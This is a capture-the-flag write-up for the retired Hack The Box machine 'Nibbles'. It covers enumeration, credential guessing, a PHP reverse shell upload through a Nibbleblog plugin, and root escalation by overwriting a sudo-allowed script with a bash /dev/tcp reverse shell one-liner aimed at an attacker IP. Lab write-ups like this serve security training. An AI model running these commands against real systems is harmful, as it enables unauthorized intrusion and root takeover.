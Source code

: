 ```yaml
---
title: HTB - Nibbles writeup
date: 2025-08-21 08:00:00 +0000
categories:
  - CTF
  - HTB
tags:
  - CTF
  - HTB
  - easy
  - enumeration
  - privilege-escalation
---
```


---

![Nibbles Box](/assets/images/nibbles/NIBBLES.png)

**OS :** Linux  
**Difficulty :** Easy  
**Machine IP :** 10.10.10.75

Nibbles is an easy retired box that showcases common enumeration tactics, basic web application exploitation, and a file-related misconfiguration for privilege escalation.

---

## Enumeration

First, we need to scan our target using `nmap` to see the open ports and services running on the target.  
![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

We get:

- SSH open on port 22
    
- HTTP open on port 80
    

Let’s check port 80, but first let’s add the IP address to our `/etc/hosts`:  
![Domain Name](/assets/images/nibbles/domain_name.png)

Now that we’ve added the host, let’s check out the website:  
![Web View](/assets/images/nibbles/web_view.png)

We get nothing here… but after checking the source code, I found a hidden web directory: `/nibbleblog/`.  
![Source Page](/assets/images/nibbles/source_page.png)

Accessing this directory shows us a blog:  
![Blog Page](/assets/images/nibbles/blog_page.png)

Next, I did some directory enumeration to see if there were any hidden files or directories. Using the `common.txt` wordlist, I got:  
![[dir_enum.png]]  
![[dir_enum_result.png]]

There are some interesting results. The first thing I checked was the `README` file:  
![[readme.png]]

It shows `Nibbleblog v4.0.3`.

Searching online, I found that it’s a CMS vulnerable to **Arbitrary File Upload**. To exploit this, we need credentials for the admin page.

After some enumeration, I discovered the username `admin`.  
![[username.png]]

I couldn’t find the password at first, but after a few guesses, I ended up with:

```
admin:nibbles
```

Now with credentials, I went to GitHub to check how to get RCE. From the code, I learned I need to upload a PHP reverse shell in `/content/private/plugins/my_image/`.  
![[github.png]]

So I went to the admin dashboard → Plugins → My Image → uploaded my reverse shell.  
![[reverse_shell.png]]  
![[uploaded_image.png]]

---

## Getting a Shell

Then I set up a Netcat listener:  
![[get_shell.png]]

Got the shell! I upgraded it with:

```bash
script /dev/null -c bash
```

![[shell_upgrade.png]]

We are now the user `nibbler`. In the home directory, I grabbed the first flag:  
![[first_flag.png]]

---

## Privilege Escalation

I ran:

```bash
sudo -l
```

![[sudo-l.png]]

It showed that we can run the `monitor.sh` script as root. After unzipping the `personal.zip` file, I got the script.  
![[the zip fie.png]]

Checking the file, I noticed I had write permission. So I overwrote it with a reverse shell:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![[overrideFile.png]]

Then I started another Netcat listener:  
![[root_reverse_shell.png]]

Finally, I ran the script as root:

```bash
sudo ./monitor.sh
```

![[run the reverse shell.png]]

And we got a **root shell**!  
![[get_root_shell.png]]

Grabbed the root flag:  
![[root_flag.png]]

---

and we are DONE  :)
